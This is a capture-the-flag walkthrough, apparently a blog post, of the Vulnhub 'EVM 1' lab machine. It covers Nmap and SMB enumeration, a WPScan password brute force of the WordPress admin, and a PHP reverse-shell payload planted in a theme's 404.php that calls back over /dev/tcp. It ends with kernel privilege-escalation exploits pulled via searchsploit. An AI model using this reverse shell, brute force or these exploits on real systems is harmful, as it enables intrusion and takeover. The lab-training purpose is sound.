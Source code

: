 +++
title = "Vulnhub: EVM 1"
date = "2021-03-05"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["Beginner", "Vulnhub", "OSCP Prep", "Password Bruteforce", "WordPress", "WPScan"]
keywords = ["", ""]
description = ""
showFullContent = false
images = ["/img/evm/evm.png"]
+++

<!--more-->
{{< image src="/img/evm/evm.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

| Difficulty | Release Date | Author |
| ---------- | ------------ | ------ | 
| Beginner   | 2 Nov 2019   | Ic0de  | 


# Summary

This was an easy box, initial foothold was on wordpress. You needed to bruteforce the admin creds
then get a reverse shell via editing a theme file to get the reverse shell. Escalating to root
was straightforward as we found the root password in a txt file. Some kernel exploits could have also
been used for privilege escalation.

# Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.56.103
Host is up (0.00028s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:d3:34:13:62:b1:18:a3:dd:db:35:c5:5a:b7:c0:78 (RSA)
|   256 85:48:53:2a:50:c5:a0:b7:1a:ee:a4:d8:12:8e:1c:ce (ECDSA)
|_  256 36:22:92:c7:32:22:e3:34:51:bc:0e:74:9f:1c:db:aa (ED25519)
53/tcp  open  domain      ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: CAPA RESP-CODES SASL AUTH-RESP-CODE TOP UIDL PIPELINING
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: more post-login LOGINDISABLEDA0001 ID LOGIN-REFERRALS listed IMAP4rev1 have capabilities OK ENABLE Pre-login LITERAL+ SASL-IR IDLE
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: -1s
|_nbstat: NetBIOS name: UBUNTU-EXTERMEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: ubuntu-extermely-vulnerable-m4ch1ine
|   NetBIOS computer name: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE\x00
|   Domain name: \x00
|   FQDN: ubuntu-extermely-vulnerable-m4ch1ine
|_  System time: 2021-03-04T15:43:32-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-03-04T20:43:32
|_  start_date: N/A
```

# Enumeration

## Samba (139,445)

Running smbmap and smbclient there's not much there.

```sh
smbmap -R -H 192.168.56.103

smbclient -L \\192.168.56.103 -N
```

{{< image src="/img/evm/evm1.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

From enum4linux-ng we only get a username

```sh
enum4linux-ng -A -R 192.168.56.103
```

{{< image src="/img/evm/evm2.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

## HTTP (80)

Visiting the ip on the browser there's only the apache default page.

Running directory bruteforce, we discover wordpress. 

{{< image src="/img/evm/evm3.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Wordpress:

{{< image src="/img/evm/evm4.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Some of the comments hint towards bruteforcing credentials.

{{< image src="/img/evm/evm5.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Bruteforcing the login page on wordpress we get the password `24992499`

```sh
wpscan --url http://192.168.56.103/wordpress/ -U c0rrupt3d_brain -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt -t 100
```

{{< image src="/img/evm/evm7.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Shell as www-data
With admin access we can edit one of the wordpress theme files to get a reverse shell with this php payload.

```php
<?php exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.56.1/9000 0>&1 &'")?>
```

{{< image src="/img/evm/evm6.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Loading the following url we get a reverse shell.

```
http://192.168.56.103/wordpress/wp-content/themes/twentynineteen/404.php
```

{{< image src="/img/evm/evm8.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Changing directory to /home there's one user's folder. Looking at all the files in this directory there's a hidden
file with the root user's password.
 
{{< image src="/img/evm/evm9.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Shell as root

Using the password `willy26` I switched to the root user.

{{< image src="/img/evm/evm10.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Extras

Privilege escalation could have also been achieved via kernel exploit.

{{< image src="/img/evm/evm11.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

The box is running ubuntu 16.04.3 and kernel version 4.4.0-87. Searching for exploits using searchsploit
we get several hits.

{{< image src="/img/evm/evm12.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Getting the first local privilege escalation script and transferring the compiled binary to the target, it works.
```sh
searchsploit -m 45010

gcc 45010.c -o pwn
```

{{< image src="/img/evm/evm13.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

The second one `44298` also works.

{{< image src="/img/evm/evm14.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}
